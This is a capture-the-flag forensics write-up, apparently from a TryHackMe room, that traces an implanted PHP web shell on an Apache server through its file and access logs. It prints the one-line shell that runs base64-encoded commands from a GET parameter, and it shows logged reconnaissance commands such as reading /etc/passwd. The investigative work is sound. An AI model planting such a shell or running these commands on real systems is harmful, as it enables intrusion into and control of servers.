



# Inifinity Shell

- our task is to find the implanted `web shell`
- the first thing we can do is navigate to the directory where the files for the `web server` are stored, to look if we can find the `web shell` ourselves without needing the `logs` 
- typically on Linux its `/var/www/html` 

```bash
ubuntu@ip-10-113-163-223:/var/www/html$ ls -la
total 24
drwxr-xr-x 3 www-data www-data  4096 Mar  6  2025 .
drwxr-xr-x 3 root     root      4096 Mar  6  2025 ..
drwxr-xr-x 8 www-data www-data  4096 Mar  6  2025 CMSsite-master
-rw-r--r-- 1 www-data www-data 10671 Mar  6  2025 index.html
```



- when I think of `web shells`, I think off places on a website where you can upload files or where the files get stored that got uploaded
- in this example, the first thing that comes to mind is the `img` directory 



- there was one `PHP` file called `images.php` and when I looked at the contents I found the `web shell`: 
```php 
<?php system(base64_decode($_GET['query'])); ?>
```

- we can see that this `PHP` script takes the `GET` parameter `query` and executes the data stored in it 
- now we can navigate to the `logs` to see which commands the attacker executed 
- the `logs` are usually stored in `/var/log` 
- because `Apache2` is used as the `web server` we have to navigate to `/var/log/apache2` 




- we can see that there are two `log` files that stored data: `error.log.1` and `other_vhosts_access.log.1` 
- lets concentrate on the `access` logs and filter for `images.php` with `grep`: 
```bash
cat other_vhosts_access.log.1 | grep images.php
```

```bash
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:47:51 +0000] "GET /CMSsite-master/img/images.php HTTP/1.1" 404 491 "http://10.10.80.94:8080/CMSsite-master/admin/profile.php?section=not_cipher" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:48:00 +0000] "GET /CMSsite-master/img/images.php HTTP/1.1" 404 492 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:48:01 +0000] "GET /favicon.ico HTTP/1.1" 404 491 "http://10.10.80.94:8080/CMSsite-master/img/images.php" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:48:14 +0000] "GET /CMSsite-master/img/images.php HTTP/1.1" 404 491 "http://10.10.80.94:8080/CMSsite-master/admin/profile.php?section=not_cipher" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:48:17 +0000] "GET /CMSsite-master/img/images.php HTTP/1.1" 404 491 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:48:22 +0000] "GET /CMSsite-master/img/images.php HTTP/1.1" 404 491 "http://10.10.80.94:8080/CMSsite-master/admin/profile.php?section=not_cipher" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:48:24 +0000] "GET /CMSsite-master/img/images.php HTTP/1.1" 404 491 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:49:10 +0000] "GET /CMSsite-master/img/images.php HTTP/1.1" 404 491 "http://10.10.80.94:8080/CMSsite-master/admin/profile.php?section=not_cipher" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:50:33 +0000] "GET /CMSsite-master/img/images.php HTTP/1.1" 500 185 "http://10.10.80.94:8080/CMSsite-master/admin/profile.php?section=not_cipher" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:50:41 +0000] "GET /CMSsite-master/img/images.php HTTP/1.1" 500 185 "http://10.10.80.94:8080/CMSsite-master/img/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:50:57 +0000] "GET /CMSsite-master/img/images.php?query=d2hvYW1pCg== HTTP/1.1" 200 212 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:51:11 +0000] "GET /CMSsite-master/img/images.php?query=bHMK HTTP/1.1" 200 660 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:51:20 +0000] "GET /CMSsite-master/img/images.php?query=ZWNobyAnVEhNe3N1cDNyXzM0c3lfdzNic2gzbGx9Jwo= HTTP/1.1" 200 229 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:51:28 +0000] "GET /CMSsite-master/img/images.php?query=aWZjb25maWcK HTTP/1.1" 200 203 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:51:40 +0000] "GET /CMSsite-master/img/images.php?query=Y2F0IC9ldGMvcGFzc3dkCg== HTTP/1.1" 200 1546 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"
ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:51:47 +0000] "GET /CMSsite-master/img/images.php?query=aWQK HTTP/1.1" 200 258 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"

```

- after analyzing the `logs`, we can see that there are `6` requests with data stored in the `query` parameter: 
```bash
/CMSsite-master/img/images.php?query=d2hvYW1pCg==
/CMSsite-master/img/images.php?query=bHMK
/CMSsite-master/img/images.php?query=ZWNobyAnVEhNe3N1cDNyXzM0c3lfdzNic2gzbGx9Jwo=
/CMSsite-master/img/images.php?query=aWZjb25maWcK
/CMSsite-master/img/images.php?query=Y2F0IC9ldGMvcGFzc3dkCg==
/CMSsite-master/img/images.php?query=aWQK
```

- because the data is encoded in `Base64` we have to decode it first: 
```bash
ubuntu@ip-10-113-163-223:/var/log/apache2$ echo 'd2hvYW1pCg==' | base64 -d
whoami
```

- if we do the exakt same for the other `requests` we eventually find the flag: 
```bash
ubuntu@ip-10-113-163-223:/var/log/apache2$ echo 'ZWNobyAnVEhNe3N1cDNyXzM0c3lfdzNic2gzbGx9Jwo=' | base64 -d
echo 'THM{<redacted>}'
```